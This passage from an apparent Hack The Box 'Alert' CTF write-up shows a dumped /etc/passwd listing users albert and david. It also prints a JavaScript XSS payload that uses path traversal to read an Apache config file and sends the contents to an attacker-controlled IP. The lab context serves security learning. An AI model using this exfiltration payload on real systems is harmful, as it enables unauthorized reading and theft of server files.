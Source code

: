 And indeed it contained the `/etc/passwd` from the box which gave us two `usernames`.

```c
<pre></pre>
<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
</pre>
```

| Username |
| -------- |
| albert   |
| david    |

First we checked their `home directories` for potential `SSH Keys` but got no luck. Then we took a look at the `Apache2` configuration and tried to read the `000-default.conf` inside `sites-enabled`.

```c
<script>
fetch('http://alert.htb/messages.php?file=../../../../../etc/apache2/sites-enabled/000-default.conf', { credentials: 'include' }) // Fetch the target page
    .then(response => response.text()) // Convert the response to text
    .then(data => {
        // Send the content via a GET request
        fetch('http://10.10.14.86:8000/?data=' + encodeURIComponent(data));
    });
</script>
```
